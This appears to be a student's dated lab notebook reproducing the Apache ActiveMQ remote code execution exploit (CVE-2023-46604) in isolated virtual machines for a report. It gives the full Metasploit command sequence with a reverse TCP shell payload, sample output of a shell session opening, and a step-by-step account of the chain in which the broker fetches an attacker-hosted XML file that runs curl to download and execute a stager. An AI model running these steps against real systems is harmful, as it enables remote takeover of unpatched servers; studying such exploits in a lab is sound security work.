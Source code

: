 # dec 1st, 2023

## Vulnerability selection
- https://www.cvedetails.com/cve/CVE-2023-46604/
- seems to be a good candidate, the exploit does not seem that hard to run
- How to know if it's a good candidate?
- making sure to have the subject locked in would be a good start
- suppose we have a budget of time/effort (which we have, its not measured). Let's say we start working and keep searching for something else to deliver instead. What would it be, should it be sexier? In which way? Something that I know of? Hmmm. Maybe that's fear about not being able to deliver on the project.
- For now I'll keep the current choice

## Install kali linux
- Live installation seems like the best option
- I'm proceeding with an USB live installation
- download with the torrent option (with Transmission) seemed like the best way to get there
- Aborted, too troublesome (supposed pendrive would not boot properly)

## Virtualbox image was the solution
- Vagrant created vm has a potentially diferent user and password
- Now the challenge is to make the exploit work
- Some steps I propose to attack the issue is to setup apache mq with some sort of demo application and then deploy the attack over the port and address in which the machine that is running the service is operating. There is a variable called RHOST and RPORT that probably should receive this information when it comes to metasploit-framework
- another important details is that the exploit I need is not available at the varsion of the metasploit-framework that ships with kali-linux, so installing from the github repository seems to be the quicker way to get the exploit. This can be done through some commands I could find reading the github page of the project.
- Possibly the final result would be:
	- VM running the apache ActiveMQ (victim machine)
	- machine running Kali or something lighter (attacker)
	- a demo program running inside the victim machine that allows for the exploit to have some traceable side effect of the hack
- For the start I'm considering doing everything inside the the kali machine.
	- setup apache with a really small application
	- run the exploit
	- break things down to some scripts
	- get the kali virtual box to work OR make everything over docker containers, but for now I don't think that it is productive to consider this, let's make things work at least once.

# dec 2nd, 2023

## Apache Active MQ setup
- Tried a first deploy, to find out that I selected the wrong version for the software
- now with the right version the challenge was to select a payload that could work
- managed to find this: payload/cmd/linux/http/x64/shell/reverse_tcp, which can be set with "set payload payload/cmd/linux/http/x64/shell/reverse_tcp"
- now the challenge seems to be around the ports used to listen to and to deliver the payload
- I managed to make the exploit work locally
- In order to do it, some steps are necessary:
	- launch activemq (run ./activemq console inside the bin folder (under the directory that contains the apache activemq installation))
	- launch metasploit
	- use exploit/multi/misc/apache_activemq_rce_cve_2023_46604
	- show targets
	- set TARGET 1 // (1 should be Linux)
	- show options
	- set RHOSTS 127.0.0.1
	- set SRVPORT 8081
	- set payload payload/cmd/linux/http/x64/shell/reverse_tcp
	- exploit
	- This should output something like:
	```
	[*] Started reverse TCP handler on 10.0.2.15:4444 
	[*] 10.0.2.15:61616 - Running automatic check ("set AutoCheck false" to disable)
	[+] 10.0.2.15:61616 - The target appears to be vulnerable. Apache ActiveMQ 5.17.5
	[*] 10.0.2.15:61616 - Using URL: http://10.0.2.15:8081/yj43yvtRDrzv
	[*] 10.0.2.15:61616 - Sent ClassPathXmlApplicationContext configuration file.
	[*] 10.0.2.15:61616 - Sent ClassPathXmlApplicationContext configuration file.
	[*] Sending stage (38 bytes) to 10.0.2.15
	[*] Command shell session 1 opened (10.0.2.15:4444 -> 10.0.2.15:49942) at 2023-12-02 15:14:28 -0500
	[*] 10.0.2.15:61616 - Server stopped.
	```
	- And you should be able to get some output by running "ifconfig" for example, this shell is already working on the victim machine
- The challenge now seems to be around deploying the environment efficiently
- Maybe we could build two containers (using docker), one for the attacker and one for the victim
- we launch activemq in the victim and expose the ports
- I have some questions around the possibility of sending commands to the msf6 shell, maybe that is not possible the same way we send the comands to the default shell
- But first it seems more interesting just to try and make it work using a NAT between kali and a new vm that exposes the port (remember to create an exception to the ports (maybe more than one) used by activemq.)

# dec 3rd, 2023
- Tried to connect the vm managed with grant to the vm that runs kali
- tried the "internal network" mode first, found out that vagrant was having trouble setting the first nework adapter to this configuration (it seems like the first adapter [should be NAT no matter what](https://github.com/hashicorp/vagrant/issues/6268))
- Then I added some extra configuratin to the vagrant file
```
config.vm.network "private_network", ip: "192.168.56.4",
					virtualbox_intnet: "isolatednet1"
```
- In the vm that runs kali I added a new adapter of the type "Host-only Adapter" with the name "vboxnet0" from the dropdown
- this configuration happened to exist in the same way in the other vm (the victim)
- Then I tried to connect the two machines through this new network using netcat
- I could not reach the victim machine (the server in the occasion) using netcat
- I installed ufw and added a rule to allow connections aimed at port 4000:
	```sudo apt install ufw```
	```sudo systemctl start ufw```
	```sudo systemctl status ufw```
	```sudo ufw allow 4000```
- Now I was able to connect both machines using netcat
	nc -l -p 4000 // for the "server"
	nc 192.168.56.3 4000 // for the "client"
- And it works!
- Now I managed to make the exploit work from the attackers machine to the victim machine, it turns out that I was not setting the exploit correctly
- there is a command "info -d" that generates an html guide on the exploit
- this guid had some info around how to set the exploit to work properly
- now the steps should be:
    use exploit/multi/misc/apache_activemq_rce_cve_2023_46604
    set TARGET 1
    show options
    set SRVHOST eth1
    set LHOST eth1
    show options
    set RHOSTS 192.168.56.4
    show options
    check
    set PAYLOAD payload/cmd/linux/http/x64/shell/reverse_tcp
    check
    exploit
- and they should work
- right now it seems a good moment to find out about what is actually happening here by analyzing the exchanges that happen between the two machines
- understanding a little bit off Ruby was crucial to get what was happening in order to craft the binary data intended to exploit the marshaller behavior
- now I think about replicating the attack over a more realistic target, like a container or a deployed broker instead of the debugging one we launch with "activemq console"
    - though this does not seem like something with more precedence than the report
    - consolidating the work so far would be a good approach
        - this could be achieve quite reliably by pushing the environment to the cloud
    - maybe setting up a kali vm with a graphic environment would be great, that way everything needed to run the experiments could be made available with a few text files in a Git repo
    - that would be useful
- I noticed that at first the broker sends some sort of 'announce' message with some info in WireFormat, we close the connection right after
- probably we should start working over the report, that could be written in LaTeX, though I don't quite have a good template for this kind of things YET
- user and password for Kali are 'vagrant' and 'vagrant' by the time of this writing (default at first startup)
- next tasks:
    - start report (preferably in latex)
    - push code to repo (OK)
    - learn how to instantiate vm with graphic environment and anchor it to the host display
    - instantiate attacker's vm through vagrant and include the file in the repository
    - reassess tasks

# dec 5th, 2023
- The understanding of the exploit is even better
- At this point I managed to find the source code for the stager (the piece of software that sets up the reverse tcp) and the code that sets up the shell
- the code for the stager (in the case of linux) can be found [here](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/payload/linux/x64/reverse_tcp_x64.rb#L12) and the code for the shell provisioning can be found [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/stages/linux/x64/shell.rb)
- we can also intercept the files along the way by listening to the packets, dumping the text to hex + ascii and then [translating the hex into binary files](https://tomeko.net/online_tools/hex_to_file.php?lang=en), to only then try and dump the binaries as assembly code. The stager is an .elf file and can be disassembled through IDA Pro (the trial version), though the payload itself (the shell provisioner) can be disassembled through the use of objdump:
    - ```objdump -D -b binary -m i8086 <binary-file>```
- so from a high level, the steps are as follows:
    1. We send an exception response message to the broker using OpenWire
    2. This message allows us to instantiate an xml context by indicating an URI that points to the attacker machine at a specific port
    3. At construction time, the class is going to fetch from this URI in order to initialize its context
    4. We are going to provide an xml that instantiates a ProcessBuilder that launches a call to curl
    5. This curl call fetches a file from the attacker, set it as executable and runs it
    6. This file is the stager and is meant to setup an outbound TCP connection that reaches for the attacker host
    7. After connecting with the attacker the victim is going to receive the payload for the exploit, which is machine code to execute the shell and do the stdin and stdout setup in order to bridge the attacker into the shell under the victims system

